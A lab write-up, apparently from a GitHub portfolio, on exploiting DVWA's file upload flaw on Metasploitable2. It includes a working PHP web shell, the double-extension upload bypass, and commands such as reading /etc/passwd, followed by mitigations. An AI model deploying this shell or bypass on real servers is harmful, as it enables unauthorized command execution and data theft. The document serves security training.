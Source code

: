 # 🐚 Web Shell Deployment – DVWA on Metasploitable2

This project walks through the successful exploitation of a file upload vulnerability in the **Damn Vulnerable Web Application (DVWA)** hosted on **Metasploitable2**. By crafting a malicious PHP payload and bypassing weak upload validation, I was able to gain **remote command execution** in a controlled lab environment.

---

## 📌 Objective

- Identify and exploit a vulnerable file upload feature in DVWA  
- Deploy a PHP web shell and gain interactive access  
- Execute remote OS-level commands on the target system

---

## 🛠️ Lab Environment

| Role     | System                   | Notes                               |
|----------|--------------------------|--------------------------------------|
| 🧱 Target | Metasploitable 2 (DVWA) | Vulnerable web server on NAT network |
| 🧪 Attacker | Parrot OS (VirtualBox)    | Used for payload creation, testing, RCE |

**Network Setup**: Internal NAT with routing between VM instances on Oracle VirtualBox.

---

## 🧨 Vulnerability Summary

DVWA’s "Upload" module:
- Lacked file type inspection beyond extension (.jpeg/.png)
- Did not sanitize file contents (accepted embedded PHP)
- Stored files in a web-accessible path without execution restrictions

This made it vulnerable to **Remote Code Execution (RCE)** via embedded PHP in image uploads.

---

## 🧭 Exploitation Walkthrough

### 1. Upload Interface Discovery
Visited:
```
http://192.168.79.8/dvwa/vulnerabilities/upload/
```
- Confirmed image upload form was live  
- Identified weak filtering based on file extensions only

### 2. Payload Crafting
Created a simple PHP shell:

```php
<?php
// PHP code to handle command execution
if(isset($_REQUEST['cmd'])) {
    echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>";
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Web Shell</title>
</head>
<body>
    <h1>Web Shell</h1>
    <form method="get">
        <label for="cmd">Enter Command:</label>
        <input type="text" id="cmd" name="cmd">
        <input type="submit" value="Execute">
    </form>
</body>
</html>

```

Saved as `shell.php.jpeg` to bypass naive extension checks.

### 3. Upload & Execution
- Uploaded payload through DVWA interface  
- Based on my network set up at that time, I Located it at:  
  ```
  http://192.168.79.8/dvwa/hackable/uploads/shell.php.jpeg
  ```

- Appended `?cmd=whoami` → output: `www-data`

### 4. Command Execution & Proof
Executed:
- `ls`, `cat /etc/passwd`, `uname -a`, and created file `I WAS HERE`  
- Result confirmed command injection and file system access under www-data privileges

---

## ⚠️ Impact

An attacker exploiting this could:
- Browse or exfiltrate sensitive data (e.g., `/etc/passwd`)  
- Install backdoors or persistence mechanisms  
- Pivot into other internal services or escalate privileges

---

## 🔒 Mitigation Recommendations

- Enforce strict MIME type checks and file content validation  
- Store uploaded files outside the webroot  
- Disable script execution in upload directories  
- Apply a WAF and least-privilege filesystem permissions

---

## 🖼️ POC

![Payload](/assets/DVWA-Web-Shell/DVWAs.jpg)

--- 

![image](/assets/DVWA-Web-Shell/DVWAi.jpg)

---

## 📄 Full Report

📥 [Download the full DVWA Web Shell deployment report (PDF)](/DVWA-Web-Shell/DVWA-Web-Shell.pdf)

This PDF details all terminal outputs, screenshots, crafted payloads, and step-by-step execution with technical evidence.

---

> _"The easiest exploit is the one you invite — never trust file uploads."_  
> — Alvin Okiya